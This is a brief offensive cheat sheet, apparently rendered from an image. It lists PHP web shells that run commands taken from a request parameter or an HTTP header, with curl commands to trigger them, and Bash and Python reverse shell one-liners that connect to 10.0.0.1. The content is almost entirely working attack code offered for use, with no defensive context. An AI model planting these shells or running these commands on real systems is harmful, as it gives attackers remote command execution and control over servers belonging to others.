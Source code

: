 # simple shell using get
    <?php system($_REQUEST['c']); ?>
then 
    `curl http://example.com?c=whoami`

# simple shell using http header
    <?php passthru(getenv('HTTP_ACCEPT_LANGUAGE')); ?>
then `curl http://example.com -H "Accept-Language: command"`

Make sure commands are URL encoded

# Reverse shell commands
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
## Bash
    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
## Python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
